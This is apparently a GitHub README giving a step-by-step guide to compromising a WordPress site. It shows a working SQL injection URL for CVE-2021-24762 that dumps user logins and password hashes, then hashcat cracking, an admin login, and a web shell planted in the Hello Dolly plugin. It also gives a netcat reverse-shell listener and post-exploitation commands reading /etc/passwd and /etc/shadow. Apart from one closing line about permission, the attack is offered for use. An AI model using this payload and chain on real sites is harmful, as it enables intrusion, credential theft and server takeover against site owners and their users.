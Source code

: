 ![Uploading image.png…]()

# Uploading a Shell in WordPress via SQLi Entry Point 

This guide walks through the process of exploiting a SQL Injection (SQLi) vulnerability in a WordPress site to upload a shell and gain access to the server.

## Target Information

The target is a WordPress website. After extensive enumeration and testing of various parameters (e.g., ID, p, search), no vulnerabilities were initially found. 

## Discovery of Vulnerability

Using WPScan, I identified a critical CVE:
- **CVE-2021-24762**: [Link to CVE](https://wpscan.com/vulnerability/c1620905-7c31-4e62-80f5-1d9635be11ad)

### Exploit Payload

The payload used for exploiting this vulnerability is:

```
https://example.com/wp-admin/admin-ajax.php?action=get_question&question_id=1%20union%20select%201%2C1%2Cchar(116%2C101%2C120%2C116)%2Cuser_login%2Cuser_pass%2C0%2C0%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%20from%20wp_users
```

The `question_id` must start with an existing post ID. Upon executing this payload, user credentials were leaked, including hashed passwords.

## Cracking the Hash

Using Hashcat, the hash was cracked:

```sh
hashcat -m 400 -a 0 'hash'
```

The password was immediately revealed. Using the cracked credentials, I logged into the WordPress admin panel.

## Uploading a Web Shell

1. **Login to WordPress Admin Panel**:
   - Username: `admin`
   - Password: `crackedhash`

2. **Editing a Plugin**:
   - Navigate to the Plugins section.
   - Choose the "Hello Dolly" plugin 
   - Edit the plugin file (e.g., `hello.php`) to include a web shell code.
   - Update the plugin with the modified code.

3. **Starting a Listener**:
   - Start a listener on your machine to catch the reverse shell:
   
   ```sh
   nc -lnvp 1234
   ```

4. **Activating the Shell**:
   - Visit `https://target.com/wp-content/plugins/hello.php` to activate the shell and gain access to the server.

## Post-Exploitation

After gaining shell access, check your privileges and enumerate the system for sensitive files and data. Due to privilege restrictions, enumeration might be limited.

### Simple Commands for Enumeration

Use simple commands to explore and gather information from the server:

```sh
whoami
uname -a
cat /etc/passwd
cat /etc/shadow
```

### Finding .txt Files

Use the following command to find all `.txt` files in the `/var/www` directory:

```sh
find /var/www -type f -name "*.txt"
```

The results from this command include:

```
/var/www/wordpress/wp-includes/js/swfupload/license.txt
/var/www/wordpress/wp-includes/js/plupload/license.txt
/var/www/wordpress/wp-includes/images/crystal/license.txt
/var/www/wordpress/wp-includes/ID3/readme.txt
/var/www/wordpress/wp-includes/ID3/license.txt
/var/www/wordpress/wp-includes/ID3/license.commercial.txt
/var/www/wordpress/license.txt
/var/www/wordpress/wp-content/themes/oceanwp/readme.txt
/var/www/wordpress/wp-content/themes/oceanwp/inc/customizer/assets/js/customize-search.js.LICENSE.txt
/var/www/wordpress/wp-content/themes/twentytwentytwo/readme.txt
/var/www/wordpress/wp-content/themes/twentytwentytwo/assets/fonts/dm-sans/LICENSE.txt
/var/www/wordpress/wp-content/themes/twentytwentytwo/assets/fonts/ibm-plex/LICENSE.txt
/var/www/wordpress/wp-content/themes/twentytwentytwo/assets/fonts/inter/LICENSE.txt
/var/www/wordpress/wp-content/plugins/wpforms-lite/readme.txt
/var/www/wordpress/wp-content/plugins/wpforms-lite/changelog.txt
/var/www/wordpress/wp-content/plugins/wpforms-lite/vendor/woocommerce/action-scheduler/license.txt
/var/www/wordpress/wp-content/plugins/ocean-stick-anything/readme.txt
/var/www/wordpress/wp-content/plugins/akismet/readme.txt
/var/www/wordpress/wp-content/plugins/akismet/changelog.txt
/var/www/wordpress/wp-content/plugins/akismet/LICENSE.txt
/var/www/wordpress/wp-content/plugins/ocean-social-sharing/readme.txt
/var/www/wordpress/wp-content/plugins/elementor/readme.txt
/var/www/wordpress/wp-content/plugins/elementor/license.txt
/var/www/wordpress/wp-content/plugins/elementor/assets/js/app.min.js.LICENSE.txt
/var/www/wordpress/wp-content/plugins/ocean-extra/readme.txt
/var/www/wordpress/wp-content/plugins/ocean-extra/includes/freemius/includes/sdk/LICENSE.txt
/var/www/wordpress/wp-content/plugins/ocean-extra/includes/freemius/LICENSE.txt
/var/www/wordpress/wp-content/plugins/ocean-extra/changelog.txt
/var/www/wordpress/wp-content/plugins/perfect-survey/readme.txt
```

## Conclusion

This process demonstrates how to leverage a known vulnerability in a WordPress site to gain unauthorized access and upload a shell. Always ensure you have permission to test and exploit vulnerabilities on any target system.

